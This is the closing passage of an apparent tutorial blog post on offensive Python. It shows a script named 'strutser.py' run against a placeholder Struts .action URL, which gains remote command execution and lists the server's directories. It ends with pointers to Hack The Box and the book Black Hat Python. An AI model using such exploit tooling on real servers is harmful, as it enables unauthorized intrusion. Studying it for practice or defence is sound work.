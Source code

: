 ```
python strutser.py  http://VULN.TARGET.COM:8080/REDACTED.action http://127.0.0.1:8510
URL: http://VULN.TARGET.COM:8080/REDACTED.action
PROXY URL: http://127.0.0.1:8510
>> ls
-------------------------------- DA REPLY --------
conf
db_connect
lib
logs
policy
webapps
work
```

Awesome! The Python script hides and abstracts away the hideous details of uploading and executing commands on the remote server and we can concentrate on advancing our nefarious purposes.

## Further material

If this looks like something you would love to do, please go ahead and start hacking! I recommend [Hack The Box](https://www.hackthebox.eu) as a platform where to hone and test your skills. But there are also books. [Black Hat Python](https://www.amazon.com/Black-Hat-Python-Programming-Pentesters/dp/1593275900) inspired me to write this post and it contains more examples of Black Hat Programming demonstrated here.

![Black Hat Python](/img/blackhat/blackhat-book.jpeg)
